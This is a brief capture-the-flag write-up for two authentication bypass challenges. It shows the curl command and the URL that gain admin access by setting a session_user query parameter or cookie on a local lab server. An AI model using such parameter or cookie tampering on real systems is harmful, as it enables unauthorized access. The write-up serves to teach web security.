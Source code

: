 # Authenication Bypass

## Authentication Bypass 1

```shell
cat /challenge/server
```

The GET request accepts a query param "session_user" /
If it is absent, login page is displayed. If present and equal to "admin" flag is displayed /

Just go to `http://challenge.localhost/?session_user=admin`

## Authentication Bypass 2

```shell
cat /challenge/server
```

The GET request expects a cookie "session_user" /
If it is absent, login page is displayed. If present and equal to "admin" flag is displayed /

```shell
curl -v --cookie "session_user=admin" http://challenge.localhost/
```
